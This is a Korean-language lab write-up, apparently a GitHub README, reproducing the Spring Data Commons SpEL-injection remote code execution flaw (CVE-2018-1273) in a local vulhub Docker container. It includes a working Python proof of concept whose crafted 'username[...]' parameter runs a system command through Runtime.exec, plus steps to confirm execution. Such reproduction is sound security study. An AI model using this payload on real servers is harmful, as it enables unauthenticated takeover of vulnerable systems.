




# Spring Data Commons Remote Code Execution (CVE-2018-1273)

본 환경은 Spring Data Commons 라이브러리에서 발생하는 SpEL(Spring Expression Language) 인젝션 기반의 원격 코드 실행(RCE) 취약점을 분석하고 재현하기 위해 구축되었다. 

---

## 1. 취약점 요약
- **CVE 식별자:** CVE-2018-1273
- **취약점 유형:** SpEL Injection / Remote Code Execution (RCE)
- **영향을 받는 버전:** - Spring Data Commons 1.13 ~ 1.13.10 (Lovelace SR10 미만)
  - Spring Data Commons 2.0 ~ 2.0.5 (Kay SR5 미만)
- **취약점 개요:** 사용자가 제출한 HTTP 요청 파라미터를 자바 객체의 속성에 자동으로 매핑하는 **데이터 바인딩(Data Binding)** 과정에서 결함이 발생한다. 취약한 버전의 Spring Data Commons는 파라미터 이름을 해석할 때 제한이 없는 `StandardEvaluationContext`를 사용하여 악성 SpEL 수식을 그대로 파싱 및 실행한다. 이를 통해 공격자는 인증 없이 원격에서 해당 웹 서버의 운영체제 제어권을 완벽히 장악할 수 있다.

---

## 2. 취약한 환경 구성 




### docker-compose.yml
```yaml
services:
  web:
    image: vulhub/spring-data-commons:2.0.5
    ports:
      - "8080:8080"
```

### 서버 구동 확인 

`docker compose` 명령어로 서버를 켠 뒤, 웹 브라우저를 열고 `http://localhost:8080/users`에 접속하여 서버가 정상 작동하는지 확인한다. 

#### [수행 단계 1]
- docker-compose.yml 파일 작성 
- 도커 컨테이너 빌드 및 실행 
`docker compose up -d --build`

----

## 3. 취약점 재현
본 취약점은 정상적인 회원가입 창의 입력 필드 검증을 우회한다.

 데이터 바인딩의 대상이 되는 username 파라미터의 키(Key) 값 자리에 조작된 악성 SpEL 구문을 주입하여 서버가 시스템 명령어를 강제로 실행하도록 유도한다. 


### PoC 스크립트 (vulhub.py)
 ```python
import requests

url = "http://localhost:8080/users"
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

payload = {
    "username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')]": "test",
    "password": "test",
    "repeatedPassword": "test"
}

print("[*] Sending exploit payload to Spring Data Commons...")
response = requests.post(url, data=payload, headers=headers)

print("[*] Request Sent. Server Response Status:", response.status_code)
print("[*] Please verify inside the container using: docker compose exec web ls -l /tmp/success")
```
데이터 바디의 딕셔너리 구조 내 파라미터명 자체에 SpEL 인젝션을 유발하는 POST 요청을 전송한다. 
`"username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')]": "test"`으로 서버 내부의 /tmp 디렉터리에 successs 파일을 생성하도록 명령 실행(exec)을 유도한다. 

### 공격 실행 
 PoC 스크립트를 `python vulhub.py`로 실행한다. 
#### [수행 단계 2]
-  `pip install requests `를 통해 필요한 라이브러리 설치
- `python vulhub.py` 작성 
- `python vulhub.py` 명령어로 공격 실행



백엔드 로직이 정상적인 회원 객체를 만들지 못하고 비정상적으로 튕겼으므로, 서버 내부적으로 에러가 발생하여 500 Internal Server Error을 반환한다.

--- 
## 4. 공격 결과
### /tmp/success 파일 확인 
#### [수행 단계 3]
- `docker compose exec web ls -l /tmp/success` 명령어로 /tmp/success 파일 존재 여부를 확인


`-rw-r--r-- 1 root root 0 ... /tmp/success` 라는 파일 상세 정보가 출력 되었고, 이를 통해 SpEL 코드가 서버 운영체제 내부에서 touch /tmp/success라는 리눅스 명령어를 실행시켰음을 확인할 수 있다. 


